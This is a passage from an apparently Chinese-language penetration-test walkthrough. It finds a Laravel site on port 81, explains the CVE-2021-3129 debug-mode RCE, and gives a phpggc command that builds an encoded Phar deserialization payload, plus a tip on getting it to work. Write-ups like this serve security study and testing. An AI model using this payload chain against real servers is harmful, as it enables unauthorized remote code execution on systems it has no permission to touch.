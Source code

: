 
如上图，目标除了80端口外还开启了22、81和6379端口。查看81端口：

![img](assets/1700555903886-248c54c0-a7f4-4e5a-8015-3e105a525f8a.jpeg)

发现是个Laravel的站点，Laravel是一套简洁、开源的PHP Web开发框架，旨在实现Web软件的MVC架构。

而在2021年01月12日，Laravel被披露存在一个远程代码执行漏洞（CVE-2021-3129）。当Laravel开启了Debug模式时，由于Laravel自带的Ignition 组件对file_get_contents()和file_put_contents()函数的不安全使用，攻击者可以通过发起恶意请求，构造恶意Log文件等方式触发Phar反序列化，最终造成远程代码执行。

目标站点的Laravel版本正好在今年刚爆出来的Laravel Debug mode RCE漏洞（CVE-2021-3129）的范围内，该漏洞的体用可以看我的这一篇文章：[《Laravel Debug mode RCE（CVE-2021-3129）漏洞复现》](https://whoamianony.top/2021/01/15/漏洞复现/Laravel/Laravel Debug mode RCE（CVE-2021-3129）利用复现/)，下面我们尝试进行初步的攻击。

### Laravel Debug mode RCE漏洞利用

（1）首先使用 [phpggc](https://github.com/ambionics/phpggc)工具生成一条laravel中存在的反序列化利用POC（经过编码后的）：

php -d "phar.readonly=0" ./phpggc Laravel/RCE5 "phpinfo();" --phar phar -o php://output | base64 -w 0 | python -c "import sys;print(''.join(['=' + hex(ord(i))[2:] + '=00' for i in sys.stdin.read()]).upper())"

得到的POC（编码后的）最后面再加一个a，否则最终laravel.log里面将生成两个POC，导致利用失败：

![img](assets/1700555904956-6b5b5f97-75b6-46b3-a6b7-37e163421a03.jpeg)
